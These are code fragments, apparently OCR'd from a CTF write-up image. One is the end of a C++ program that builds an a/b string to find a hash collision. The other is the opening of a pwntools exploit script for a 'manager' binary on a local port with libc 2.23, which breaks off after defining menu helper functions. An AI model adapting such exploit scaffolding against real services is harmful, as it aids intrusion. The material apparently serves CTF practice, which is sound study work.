 ```cpp
     {
          for(i=0;i<len;i++)
          {
               if(a[i]==1)
                    a[i+len]=0;
               else
                    a[i+len]=1;
          }
          len=len*2;
     }
     for(i = 0; i < 100000; i++)
     {
          if(a[i]==1)
               s[i] = 'a';
          else
               s[i] = 'b'; 
     }

     for (int i = 0; i < Len; ++i)
          Ans0 = Ans0 * 37 + s[i]; 

     for (int i = 1; i < 100000 - Len; ++i)
          if (Cmp(i)) {
               for (int j = 0; j < Len; ++j)
                    printf("%c", s[j]);
               puts("");
               for (int j = 0; j < Len; ++j)
                    printf("%c", s[i + j]);
               break;
          }

     return 0;
}
```

```python
from pwn import *
context.log_level = 'DEBUG'
# sh = process('./manager')
sh = remote('127.0.0.1',8001)
libc = ELF('./libc-2.23.so')

def add(name,ids,length,info):
    sh.sendline('1')
    sh.recvuntil('Input Name of Staff:\n')
    sh.send(name)
    sh.recvuntil('Input Number of Staff:\n')
    sh.sendline(str(ids))
    sh.recvuntil('Input len of Info:\n')
    sh.sendline(str(length))
    sh.recvuntil('get Info:\n')
    if(length > 0):
        sh.send(info)
    sh.recvuntil('>>>')
def edit_name(ids,name):
    sh.sendline('2')
    sh.recvuntil('Input Number:\n')
    sh.sendline(str(ids))
    sh.recvuntil('> ')
    sh.sendline('1')
    sh.recvuntil('Input name:\n')
    sh.send(name)
    sh.recvuntil('>>>',timeout=0.1)
def edit_info(ids,length,info):
```